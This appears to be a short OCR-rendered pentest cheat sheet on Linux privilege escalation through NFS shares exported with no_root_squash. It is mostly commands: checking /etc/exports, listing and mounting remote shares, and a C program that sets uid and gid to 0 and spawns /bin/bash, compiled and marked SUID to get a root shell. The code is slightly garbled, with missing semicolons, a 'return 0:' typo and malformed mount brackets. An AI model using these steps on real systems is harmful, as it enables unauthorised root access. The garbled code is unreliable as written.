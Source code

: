 root squash NFS
cat /etc/exports
look for no_root_squash

![file:///tmp/.P4RB62/1.png](file:///tmp/.P4RB62/1.png)

**ENUMERATE MOUNTABLE SHARES AND MOUNT ON SHARE**

showmount -e (rhost)
mkdir (mountable_folder/foldername)
mount -o rw (rhost>:<mountable_folder_2> <mountable_folder/foldername


**CREATE SUID BINARY**
```
nano nfs.c
 int main()  
{ 	setgid(0);  
	setuid(0)  
	system("/bin/bash")  
	return 0:  
}

```
``gcc nfs.c -o nfs -w
``chmod +s nfs
``./nfs

![file:///tmp/.P4RB62/2.png](file:///tmp/.P4RB62/2.png)